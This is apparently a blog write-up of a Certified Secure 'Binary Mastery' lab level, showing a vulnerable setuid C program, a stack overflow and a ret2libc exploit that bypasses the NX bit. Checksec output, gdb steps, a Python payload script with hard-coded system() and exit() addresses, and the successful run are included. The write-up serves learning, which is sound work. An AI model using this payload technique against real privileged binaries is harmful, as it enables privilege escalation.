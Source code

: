 ![Logo](/assets/images/belts-red.png)


In this post we'll continue with the first level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
More buffer overflows on the horizon, but now a new protection mechanism is introduced: the non-executable (**NX**) bit. 
The method we'll need to use here is called is called **ret2libc** (return to libc) and allows us go around the fact that the stack is not executable.

In the previous levels we exploited similar stack-based buffer overflows by overwriting past the buffer limits, 
until we reached the saved return address, where we wrote an address we controlled. 
We placed the shellcode either in the buffer itself or in environment variables, which both ended up on the stack.
Now because the stack is NOT executable, the program would just crash. So we need a way to get past this. 
One known trick is to return insted to the function **system()** from the standard _libc_ library, which accepts an argument to execute.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)

If you want to know more about the techniques to bypass the NX bit, make usre to check the following great resources:
* [Bypassing NX bit using return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-return-to-libc/)
* [Bypassing NX bit using chained return-to-libc](https://sploitfun.wordpress.com/2015/05/08/bypassing-nx-bit-using-chained-return-to-libc/)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE                       
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level1

```

There is no stack canary but the stack is **not** executable. What about the state of ASLR on the system? Good news this time: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:

```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>

void hello(int count) {
        char buf[12];

        read(0, buf, count);                            [1]
        printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <count>\n", argv[0]);
                return -1;
        }

        hello(atoi(argv[1]));
        return 0;
}
```

It's very easy to understand how the program works and the buffer overflow is obvious. The call to **read** function in **[1]** accepts the number of bytes to be read from the user, without any validation. Input is written into the **buf** buffer which is only 12 bytes. Simple!

The second issue is of course the absence of a stack cookie which, in this case, would have caused the program to crash, preventing the exploitation.

The third issue, which is a general one, is that the application has the **setuid** flag set and it executes actions based on user input (which could be malicious) with elevated privileges. A better design would be to drop the privileges before getting input from an untrusted source. There are ways around this as well, but it would raise the bar a little for the attackers.

## 2 - Exploit

The idea is to redirect the execution flow to the address of the **system** function and somehow give it a meaningful parameter to execute. Let's go step by step.

### Controlling the execution flow
Although we know that **buf** is 12 bytes in size, we need to see the stack layout of the function **hello** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![hello stack](/assets/images/bm6-1.png)

So we need 20 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*24 + "BBBB"' > input
$ gdb -q ./level1    
```

We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm6-2.png)

### Final payload

After we gain control of the EIP, we want to return to the **system** function as discussed. I chose to execute the **/home/level2/victory** binary, but we could as well spawn a new shell. So the payload will look like this:

```
| PADDING (24 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

If it's not clear why, go back to the articles referened in the beginning. The last parameter is important. We need to place there the argument to the **system** call. According to its [man page](http://man7.org/linux/man-pages/man3/system.3.html) this should be the address of a string in memory representing the command to execute. 

We can use the same trick as before and place the command to be executed in an environment variable:

```bash
$ export EGG="/home/level2/victory"
```
The complete script to generate the payload looks like this:

```python
import struct
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffdef9-6      # Address of environment variable (/home/level2/victory)

payload = "A" * 24 + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ /levels/level1 40 < /tmp/input
Hello AAAAAAAAAAAAAAAAAAAAAAAAp^�P�����
                                       !
   ___  _                      __  ___         __
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __    
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
              
Subject: Victory!
             
Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery lieutenant)
   * the exploit
   
You can now start with level2. If you want, you can log in
as level2 with password    [REDACTED]
```
